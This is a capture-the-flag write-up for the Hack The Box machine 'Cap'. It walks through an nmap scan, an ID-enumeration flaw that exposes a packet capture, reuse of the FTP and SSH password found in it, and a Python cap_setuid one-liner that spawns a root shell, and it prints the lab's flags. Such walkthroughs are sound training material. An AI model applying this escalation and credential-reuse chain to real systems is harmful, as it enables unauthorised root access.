





## Cap
You can find the machine [here](https://app.hackthebox.com/machines/Cap).
During all this writeup, I'll be using the variable `$TARGET` as the machine IP address, and `$ATTACKER` as the attacker IP address (us).


### Step 1 - Recognition phase

First of all, we will do some recognition using nmap with the flag `-p-` to discover all the opened ports on the VM :
```bash
$ nmap $TARGET -p-
Starting Nmap 7.93 ( <https://nmap.org> ) at 2025-06-01 00:08 CEST
Nmap scan report for 10.10.10.245
Host is up (0.038s latency).
Not shown: 65532 closed tcp ports (reset)
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 17.66 seconds
```

We can see 2 interesting ports :
- 21 : An FTP server.
- 80 : An HTTP server.

### Step 2 - Exploit phase

#### User flag

On the website (on the port 80), we have a dashboard :


The tab `Security Snapshot ...` redirect to a page `data/:id` :



We can access every data by changing the id from the url. As an example, we can access the data with the id of `0`:


On this page, we can find multiple captured packets. We can download the pcap file and open it with wireshark. With some filters, we can find ftp credentials :


The credentials found are :
```
nathan:Buck3tH4TF0RM3!
```

We can connect to the ftp server and get the first user.txt flag :
```bash
$ ftp nathan@10.10.10.245
Connected to 10.10.10.245.
220 (vsFTPd 3.0.3)
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||55997|)
150 Here comes the directory listing.
-rw-rw-r--    1 1001     1001           46 May 31 22:37 exploit.py
-rwxrwxr-x    1 1001     1001       840085 May 31 15:14 linpeas.sh
drwxr-xr-x    3 1001     1001         4096 May 31 14:15 snap
-r--------    1 1001     1001           33 May 31 11:25 user.txt
226 Directory send OK.
ftp> get user.txt
local: user.txt remote: user.txt
229 Entering Extended Passive Mode (|||25985|)
150 Opening BINARY mode data connection for user.txt (33 bytes).
100% |*********************************************************|    33       47.18 KiB/s    00:00 ETA
226 Transfer complete.
33 bytes received in 00:00 (1.20 KiB/s)
```

```bash
$ cat user.txt 
67fbdb55a4d5e049e0c0590d77797342
```

#### Root flag

Using the same credentials, we can log in with ssh :
```bash
$ ssh nathan@${TARGET}
password: Buck3tH4TF0RM3!
```

When running linpeas.sh on the VM, we can found a 95% PE :
```bash
/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
```

On GTFOBins, we find that we can get a shell as root if the cap_setuid flag is set on a Python3 executable file :



With this exploit, we can have a shell as root and found the root flag :
```bash
$ /usr/bin/python3.8 -c 'import os; os.setuid(0); os.system("/bin/sh")'
# whoami
root
# cd /root
# ls
root.txt  snap
# cat root.txt
9b71101549de2e617d031898d44f2126
```